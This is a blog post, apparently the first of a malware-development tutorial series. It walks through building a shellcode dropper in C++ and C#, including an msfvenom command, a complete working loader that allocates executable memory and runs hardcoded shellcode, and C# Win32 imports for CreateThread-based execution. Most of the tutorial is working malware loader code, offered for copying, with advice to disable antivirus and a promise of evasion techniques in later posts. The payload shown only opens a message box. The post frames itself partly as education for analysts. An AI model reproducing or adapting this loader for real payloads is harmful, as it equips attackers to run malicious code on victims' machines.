MalDev - 0x00
Por Igor Benevides
Introduction
Hello! My name is Igor and I’m a professional cybersecurity consultant and researcher. I currently own OSEP certification, and I’m going through OSED. I love to study about cybersecurity and I’m a part of the RSI (Residência da Segurança da Informação) project, which is an extension project for UFC (Universidade Federal do Ceará). The goal of this new series is to teach malware development for anyone interested in this theme. I’ll provide a simple and easy to follow series of blogs to study from the very basic to the state of the art in malware development.
The Journey
Pre-requisites
- Programming
- C/C++/C#
- Some basic concepts about Operating Systems
What will be covered (In due time)
- Dropper creation
- Bypassing Av
- Process injection techniques
- Advanced Evasion tecniques
- Modern EDR bypasses
What will not be covered
- Teaching C/C++/C#
- Teaching shellcode creation
- How to weaponize these malware
Creating a basic dropper (C++)
So let’s start by creating a basic dropper, but what’s a dropper? You might ask, A dropper is simply a shell of the malware. In this series, all you’ll learn is how to create different droppers, not weaponized malware. My goal with this series is not to deliver powerful bombs to inexperienced people, but instead make analysts aware of the presented techniques and give insights on how to prepare for them.
Setting up the enviroment
I’d recommend you setup in a VM since we’ll be deactivating our anti-virus on these first topics.
- Download Visual Studio (Any relatively new version should work)
- Open Visual Studio
- Create a Project

- Type Console in search bar, select C++ as a language

- Select a name for your project

- Once you get this code on your screen, you’re good to go!

Compiling and running
- Select x86 or x64 depending on your VM architeture

- Compile your solution clicking on Compilation tab and then, Compile Solution

- Watch out for any errors or warnings here

- Open cmd, cd to exe directory, and run it

Only move forward after you got Hello World!
Coding the dropper (CreateThread)
This will be the simpler of all the droppers, this will work as a foundation for the next blog posts. The idea is super simple, load a hardcoded shellcode in memory, allocate it in memory so we can get a pointer to it, execute the shellcode at the allocated address! Super simple, the code will be very small.
1. Hardcode a shellcode in memory
For this demo, let’s create a messagebox from msfvenom, this code is flagged as malicious by basically every AV but it isn’t dangerous. Perfect for our porpousers. You can use your kali machine or install in any linux machine with
sudo apt-get metasploit-framework
- Run the following command:
msfvenom -p windows/x64/messagebox -f c TEXT="Hello, from malware :D" TITLE="Malware"
PS: This command creates a shellcode in c format, that is the same for cpp, the shellcode executes a messagebox using windows functions for a 64bit machine
- Now just copy and paste the shellcode to our main function
-
2. Allocating an address for the shellcode
- add
#include <windows.h>to the import section  - call VirtualAlloc in a void pointer address with the following snippet
// Shellcode Allocation
void* allocatedFunctionAddress = VirtualAlloc(NULL, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// Check for errors in the allocation proccess
if (allocatedFunctionAddress == NULL) {
DWORD error = GetLastError();
std::cerr << "VirtualAlloc failed with error code: " << error << std::endl;
return 1;
}
VirtualAlloc recieves 4 arguments, the first one is optional and refers to the initial address of the allocation, since we don’t really care about that we set it to NULL. The second argument is the size of the allocated region, we just need to get the size of the buf variable. The third is the allocation type parameter, MEM_COMMIT variable is used to automatically reserve a virtual memory page and zero it content. The fourth one is the memory protection type that we want for our page, in this case we use PAGE_EXECUTE_READWRITE, because we need to write our shellcode, read and execute it. For a more detailed explanation and other memory allocations types refer to this section of the microsoft documentation. If the returned address is NULL, something went wrong, for debugging porpouses we get the error code with the GetLastError function
3. Copying buf content
This one is pretty straightforward, just copy the contents of buf variable into the allocated address.
// Copy the content of buf to the new address
memcpy(allocatedFunctionAddress, buf, sizeof buf);
For more information, as always, refer to the docs
4. Execute the shellcode
For executing our code, we can use some C/C++ magic to type cast our allocated address as a function pointer and just call it as a normal function. The steps here are more intuitive I think, you’ll see in the internet some oneliners that’ll do the same, but here I’ll break it down in a more “clean code” manner.
// Create a type for our shellcode function, we'll expect a int to return
typedef int (*BufFunction)();
// Convert to function pointer
BufFunction bufF = reinterpret_cast<BufFunction>(allocatedFunctionAddress);
// Call the function and print the result
int result = bufF();
std::cout << "Result: " << result << std::endl;
5. Wrapping it Up
So here’s the full code, let’s walkthrough the proccess: create your shellcode (that’s the actual malware), allocate some memory for it, mark it as readable, writeable and executable. Finally, copy the shellcode to the allocated memory and typecast it to a function pointer and call it. If you compiled correctly and disabled your antivirus you should be able to execute the code and get a message box that says: Hello, from malware! (This is 32-bit shellcode)
// Create_Thread_CPP.cpp : Este arquivo contém a função 'main'. A execução do programa começa e termina ali.
//
#include <iostream>
#include <windows.h>
int main()
{
unsigned char buf[] =
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64"
"\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e"
"\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60"
"\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b"
"\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01"
"\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d"
"\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01"
"\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01"
"\xe8\x89\x44\x24\x1c\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89"
"\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45"
"\x04\xbb\xef\xce\xe0\x60\x87\x1c\x24\x52\xe8\x8e\xff\xff"
"\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64"
"\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c\x24"
"\x52\xe8\x5f\xff\xff\xff\x68\x61\x72\x65\x58\x68\x4d\x61"
"\x6c\x77\x31\xdb\x88\x5c\x24\x07\x89\xe3\x68\x58\x20\x20"
"\x20\x68\x4d\x53\x46\x21\x68\x72\x6f\x6d\x20\x68\x6f\x2c"
"\x20\x66\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24\x10\x89"
"\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff\x55"
"\x08";
// Shellcode Allocation
void* allocatedFunctionAddress = VirtualAlloc(NULL, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// Check for errors in the allocation proccess
if (allocatedFunctionAddress == NULL) {
DWORD error = GetLastError();
std::cerr << "VirtualAlloc failed with error code: " << error << std::endl;
return 1;
}
std::cout << "Allocated Address at 0x" << allocatedFunctionAddress << std::endl;
// Copy the content of buf to the new address
memcpy(allocatedFunctionAddress, buf, sizeof buf);
std::cout << "Copied Shellcode!" << std::endl;
std::cout << "Executing Shellcode..." << std::endl;
// Create a type for our shellcode function, we'll expect a int to return
typedef void (*BufFunction)();
// Convert to function pointer
BufFunction bufF = reinterpret_cast<BufFunction>(allocatedFunctionAddress);
// Call the function
bufF();
return 0;
}
What if I want C#?
For some reason, you want to code this in C# (in latter articles we’ll see why, in some cases, this is interesting)
Straight to the dropper
As you’ve learned above, set up your new C# project as a console application aswell. Should be fairly simple if you understood the C++ part. I’ll mainly point out the differences and how to translate the same C++ code to C#.
Attention, be careful not to create a Runtime project, but a .NET Framework the difference is that the .NET framework one only works in Windows, that’s the one we’ll cover this article. In the future we’ll show the advantages and disadvantages of using the Runtime of .NET Core

Calling Win32 functions from C#
This is the main part, covering this should be enough for you to come up with a working code. You’ll need to import this library using System.Runtime.InteropServices; that will allow you to import kernel32.dll functions (which refers to the functions in windows.h, some of them at least).
After importing, we can call external exports from windows dlls like this:
[System.Runtime.InteropServices.DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UIntPtr size, Int32 flAllocationType, IntPtr flProtect);
[System.Runtime.InteropServices.DllImport("kernel32")]
private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UIntPtr dwStackSize, IntPtr lpStartAddress, IntPtr param, Int32 dwCreationFlags, ref IntPtr lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
We only need these three for our dropper.
So, virtual alloc is already covered, let’s cover the other win32 functions then.
The CreateThread function is a fundamental building block for multithreaded applications. It is part of the Windows API and is typically used to spawn a new thread within a process. We’re going to need this function to execute our shellcode in a separate thread. Here’s a breakdown of its key parameters:
- lpThreadAttributes: A pointer to a SECURITY_ATTRIBUTES structure that determines whether the returned handle can be inherited by child processes.
- dwStackSize: The initial size of the stack, in bytes, for the new thread. If this parameter is zero, the new thread uses the default stack size.
- lpStartAddress: A pointer to the application-defined function that the new thread will execute.
- param: A pointer to a variable to be passed to the thread function.
- dwCreationFlags: Flags that control the creation of the thread.
- lpThreadId: A pointer to a variable that receives the thread identifier. If this parameter is NULL, the thread identifier is not returned.
The WaitForSingleObject function is crucial for synchronization in multithreaded applications. It enables a thread to wait until the specified object is in the signaled state. Think of it as an await for async programming. Here’s the breakdown of the parameters:
hHandle: A handle to the object. This can be a handle to a thread, process, or other types of objects.
dwMilliseconds: The time-out interval, in milliseconds. If a nonzero value is specified, the function waits until the object is signaled or the time-out interval elapses.
You should be able to comeup with a code yourself from this point, I highly recommend you start practicing your coding skills if you want to be successfull in malware development, since the public source codes get detected really easily with time. Probably even the ones that’ll show you in the next articles that bypass some security defenses will be obsolete in a few years, but if you manage to grasp the knowledge provided here you should be able to create your own malware in due time.
Repos
For your easy copy and paste :), but also for any malware analystis out there looking to hone their skills and understand how these malicious processes behave, I’m creating a repository for each dropper: github source code for C++ dropper, github source code for C# dropper copy and start it if it helped you on your studies. Thank you and stay tuned for the next post: We’ll go through how to evade Anti-Viruses (covering some techiniques from PEN-300 offsec course)